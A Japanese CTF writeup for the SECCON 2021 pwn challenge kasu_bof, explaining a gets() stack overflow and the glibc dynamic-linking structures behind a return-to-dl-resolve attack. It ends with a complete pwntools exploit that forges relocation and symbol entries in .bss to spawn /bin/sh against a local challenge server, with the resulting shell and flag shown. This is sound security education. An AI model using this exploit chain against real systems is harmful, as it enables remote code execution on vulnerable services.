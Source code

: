 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---


#+HUGO_BASE_DIR: ./

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~buf~ のサイズが ~0x80~ 
- ~gets~ を使用しているため、 ~buf~ に任意の文字数を入力可能

  
このことから，配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる．


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため，
スタックバッファオーバフローを利用して， ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである．


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、および  ~system~ 、 ~/bin/sh~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。
      
*** ~.plt~ セクションからアドレス解決の流れ
    ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。

    
    そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


    参考
    #+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reroc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    |  'gets'  |
                                                                                                   |-----------+----------|
    #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ はELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス，再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。   

   ~plt~ にジャンプする前に、 ~link_map~ 構造体のアドレス（GOTの2番目のエントリ）とGOTのオフセット ( ~reloc_arg~ )がスタックに格納される。
     - https://elixir.bootlin.com/glibc/latest/source/include/link.h#L86
	 #+begin_src c
	   /* Structure describing a loaded shared object.  The `l_next' and `l_prev'
	      members form a chain of all the shared objects loaded at startup.

	      These data structures exist in space used by the run-time dynamic linker;
	      modifying them may have disastrous results.

	      This data structure might change in future, if necessary.  User-level
	      programs must avoid defining objects of this type.  */

	   struct link_map
	     {
	       /* These first few members are part of the protocol with the debugger.
		  This is the same format used in SVR4.  */

	       ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					      file and the addresses in memory.  */
	       char *l_name;		/* Absolute file name object was found in.  */
	       ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	       struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	 #+end_src
	 
     以下の例の場合， ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
	#+begin_src
     gef➤  x/10i $eip
     => 0x8049030:   push   DWORD PTR ds:0x804c004
	0x8049036:   jmp    DWORD PTR ds:0x804c008
	0x804903c:   add    BYTE PTR [eax],al
	0x804903e:   add    BYTE PTR [eax],al
	0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
	0x8049046 <gets@plt+6>:      push   0x0
	0x804904b <gets@plt+11>:     jmp    0x8049030
	0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
	0x8049056 <__libc_start_main@plt+6>: push   0x8
	0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
	#+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは， ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは， ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF_Dyn 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L838
	#+begin_src c
	  /* Dynamic section entry.  */

	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;

	  typedef struct
	  {
	    Elf64_Sxword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf64_Xword d_val;		/* Integer value */
		Elf64_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf64_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L860
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは， ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では， ~DT_STRTAB, DT_SYMTAB~ は8，9番目のエントリ， ~DT_JMPREL, DT_REL~ は16，17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは， ~ELF_Rel~ 構造体の配列となっている。
    - ELF_Rel 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L632
	#+begin_src c
	  /* Relocation table entry without addend (in section of type SHT_REL).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;

	  /* I have seen two different definitions of the Elf64_Rel and
	     Elf64_Rela structures, so we'll leave them out until Novell (or
	     whoever) gets their act together.  */
	  /* The following, at least, is used on Sparc v9, MIPS, and Alpha.  */

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword	r_info;			/* Relocation type and symbol index */
	  } Elf64_Rel;

	  /* Relocation table entry with addend (in section of type SHT_RELA).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	    Elf32_Sword r_addend;		/* Addend */
	  } Elf32_Rela;

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword r_info;			/* Relocation type and symbol index */
	    Elf64_Sxword r_addend;		/* Addend */
	  } Elf64_Rela;

	  /* RELR relocation table entry */

	  typedef Elf32_Word	Elf32_Relr;
	  typedef Elf64_Xword	Elf64_Relr;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は，シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより， ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは， ~Elf_Sym~ 構造体の配列となっている。
      - ELF_Sym 構造体
	- https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L517
	  #+begin_src c
	    /* Symbol table entry.  */

	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;

	    typedef struct
	    {
	      Elf64_Word	st_name;		/* Symbol name (string tbl index) */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf64_Section st_shndx;		/* Section index */
	      Elf64_Addr	st_value;		/* Symbol value */
	      Elf64_Xword st_size;		/* Symbol size */
	    } Elf64_Sym;
           #+end_src
	  - ~st_name~ は，実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが，シンボルを指すアドレスとなっている。
    - 以下の例では， ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し，その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reroc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、global変数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には，以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体， ~system~ のシンボル，および ~/bin/sh~ の文字列が格納する．    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき， ~Elf32_Sym~ 構造体は， ~dynsym~ セクションのアドレスから， ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)，
    必要なbyte数だけalignしている．

    Solverを書くときは，事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき，ROPで ~gets~ の引数として指定しておき，ROPチェインが発火後に，それぞれの構造体やシンボルを書き込んでいく．
        #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
**** solve.py
    #+begin_src python
      from pwn import *

      filename = './chall'
      chall = ELF(filename)

      # docker-compose up
      conn = remote('localhost', 9001)
      # conn = process(filename)

      plt = chall.get_section_by_name('.plt').header.sh_addr
      bss = chall.get_section_by_name('.bss').header.sh_addr
      rel = chall.get_section_by_name('.rel.plt').header.sh_addr
      dynsym = chall.get_section_by_name('.dynsym').header.sh_addr
      dynstr = chall.get_section_by_name('.dynstr').header.sh_addr
      gets_got = chall.got['gets']
      gets_plt = chall.plt['gets']

      # 0x08049022: pop ebx; ret;
      pop_ret = 0x08049022

      # .bss section
      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 8 byte  |
      # |           |                           | (align) |
      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           |         |

      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c

      # calc index of Elf32_Rel from .rel.plt
      reloc_arg = Elf32_Rel_addr - rel

      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg

      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg

      conn.sendline(buf)

      # create Elf32_Rel
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Addr	r_offset;		/* Address */
      #     Elf32_Word	r_info;			/* Relocation type and symbol index */
      # } Elf32_Rel;
      ###################################################################################
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7

      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      Elf32_Rel = p32(r_offset)
      Elf32_Rel += p32(r_info)
    
      conn.sendline(Elf32_Rel)

      # create Elf32_Sym
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
      #     Elf32_Addr	st_value;		/* Symbol value */
      #     Elf32_Word	st_size;		/* Symbol size */
      #     unsigned char st_info;		/* Symbol type and binding */
      #     unsigned char st_other;		/* Symbol visibility */
      #     Elf32_Section st_shndx;		/* Section index */
      # } Elf32_Sym;
      ###################################################################################
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0

      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      Elf32_Sym = p32(st_name)
      Elf32_Sym += p32(st_value)
      Elf32_Sym += p32(st_size)
      Elf32_Sym += p8(st_info)
      Elf32_Sym += p8(st_other)
      Elf32_Sym += p16(st_shndx)

      conn.sendline(Elf32_Sym)

      # create system symbol
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'system')

      # create sh symbol
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'/bin/sh')

      conn.interactive()
    #+end_src
    
**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857
